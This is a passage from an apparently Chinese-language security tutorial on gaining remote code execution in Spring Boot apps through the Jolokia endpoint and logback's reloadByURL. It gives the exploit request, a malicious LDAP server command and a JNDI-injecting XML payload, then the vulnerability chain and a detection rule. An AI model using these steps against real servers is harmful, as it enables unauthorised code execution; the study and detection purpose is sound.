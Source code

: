 访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。如果存在，则能进行攻击。

先用marshalsec起一个恶意的Ldap服务：

```sh
java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#EvalClass 8585
```

再准备一个恶意的class文件：

![image-20210819164649769](/media/image-20210819164649769.png)

还得准备一个example.xml文件：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://127.0.0.1:8585/EvalClass" as="appName" />
</configuration>
```

起一个HTTP服务（class文件和shell.yml需要在这个HTTP服务下）：

```sh
python3 -m http.server 80
```

最后请求如下URL：

```
/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/127.0.0.1!/example.xml
```

执行命令成功：

![image-20210820112615825](/media/image-20210820112615825.png)

### 漏洞原理

1. 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 `ch.qos.logback.classic.jmx.JMXConfigurator` 类的 `reloadByURL` 方法
2. 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

### 流量特征

利用 Jolokia 攻击不仅仅只有上述的手法，所以流量规则最好是检测到 `/jolokia` 访问就给ban掉：

```
METHOD = POST or GET
URI    = /jolokia
```

## 总结

各种RCE场景分析未完待续......
